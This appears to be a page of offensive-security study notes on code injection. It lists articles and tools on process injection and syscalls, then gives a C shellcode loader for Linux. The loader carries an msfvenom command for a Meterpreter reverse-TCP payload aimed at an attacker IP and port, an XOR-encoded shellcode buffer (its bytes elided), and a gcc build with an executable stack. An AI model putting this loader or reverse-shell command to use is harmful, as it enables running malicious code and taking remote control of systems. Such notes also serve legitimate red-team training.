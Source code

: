 # Code Injection

* [https://yuval0x92.wordpress.com/2020/03/09/native-api-win32-api/](https://yuval0x92.wordpress.com/2020/03/09/native-api-win32-api/)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://www.solomonsklash.io/syscalls-for-shellcode-injection.html](https://www.solomonsklash.io/syscalls-for-shellcode-injection.html)
* [https://jhalon.github.io/utilizing-syscalls-in-csharp-1/](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/)
* [https://jhalon.github.io/utilizing-syscalls-in-csharp-2/](https://jhalon.github.io/utilizing-syscalls-in-csharp-2/)
* [https://github.com/jhalon/SharpCall](https://github.com/jhalon/SharpCall)




## Shellcode as Function

* [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
* [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
* [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
* [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)

Linux example. Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```

{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33...\x33\x37";

int main (int argc, char **argv)
{
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}




## Tools



### Injector

* [https://github.com/0xDivyanshu/Injector](https://github.com/0xDivyanshu/Injector)
* [https://github.com/jfmaes/SharpZipRunner](https://github.com/jfmaes/SharpZipRunner)
* [https://github.com/plackyhacker/Shellcode-Injection-Techniques](https://github.com/plackyhacker/Shellcode-Injection-Techniques)
